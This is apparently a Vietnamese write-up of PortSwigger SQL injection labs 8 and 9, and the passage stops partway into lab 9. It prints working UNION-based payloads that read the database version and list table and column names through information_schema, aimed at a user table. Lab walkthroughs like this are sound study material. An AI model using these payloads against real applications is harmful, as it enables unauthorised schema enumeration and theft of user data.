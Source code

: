 # Lab 8: SQL injection attack, querying the database type and version on MySQL and Microsoft
![](https://hackmd.io/_uploads/SkqBDVszT.png)
Lab yêu cầu tấn công UNION để xác định phiên bản database MySQl và Microsoft
Ta có [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) sau
![](https://hackmd.io/_uploads/r1OAu4jz6.png)

Đầu tiên, xác định xem câu lệnh hiện tại select bao nhiêu cột
![](https://hackmd.io/_uploads/BJ1dh4izp.png)

Tiếp theo, kiểm tra cột nào có giá trị là string
![](https://hackmd.io/_uploads/H1bd0EjzT.png)

Dùng câu lệnh `'UNION+SELECT+@@version,+NULL#`
![](https://hackmd.io/_uploads/B1JpJBoza.png)
Done!

# Lab 9: SQL injection attack, listing the database contents on non-Oracle databases
![](https://hackmd.io/_uploads/BJSO-rsG6.png)
Lab yêu cầu đưa ra nội dung bên trong database không phải Oracle

Xác định số cột select
![](https://hackmd.io/_uploads/HkqIXrjzp.png)

Xác định định dạng của cột nào là string
![](https://hackmd.io/_uploads/rkp9mBofp.png)

Ta có câu lệnh lấy ra các bảng từ database
```sql
SELECT table_name FROM information_schema.tables
```
Payload câu lệnh
```sql
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
```
![](https://hackmd.io/_uploads/HyXWBSoza.png)

Ta thu được rất nhiều bảng
![](https://hackmd.io/_uploads/rypMYSifp.png)

Ta có câu lệnh lấy ra tên cột từ bảng
```sql
SELECT column_name FROM information_schema.columns WHERE table_name = 'Users'
```
Payload với bảng `users_ssechg`
```sql
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_ssechg'--
```
![](https://hackmd.io/_uploads/r1oQproMT.png)
